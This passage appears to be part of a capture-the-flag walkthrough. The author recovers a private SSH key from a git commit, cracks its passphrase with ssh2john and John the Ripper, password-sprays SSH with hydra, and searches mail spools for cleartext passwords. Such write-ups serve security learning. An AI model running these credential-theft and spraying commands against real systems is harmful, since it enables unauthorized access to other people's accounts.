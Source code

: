 Checking `marcot` commit log I found one interesting commit:

![image.png](image%2012.png)

```bash
git show 856f7c45f504b8f37593a2fff99c59e00a601e6e
```

Shows private SSH key.

As terminal is not fully functional and it returns the key in bad format I am gonna redirect it to file and polish it there.

```bash
git show 856f7c45f504b8f37593a2fff99c59e00a601e6e > file
```

![image.png](image%2013.png)

Something is wrong despite I made improvements, I am gonna try to obtained  private key from TeamCity portal.

![image.png](image%2014.png)

![image.png](image%2015.png)

```bash
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](image%2016.png)

After entering it, I got access.

![image.png](image%2017.png)

It turns out passphrase also a password for marcot.

## Shell as marcot

I did password spraying on users:

```bash
cat /etc/passwd | grep sh$ | cut -d ':' -f 1

hydra -L users -p cheer $IP ssh
```

Nothing new.

As port 25 is open I am gonna check its root directory `/var/mail`.

Grepping for password I see the password in cleartext:

![image.png](image%2018.png)
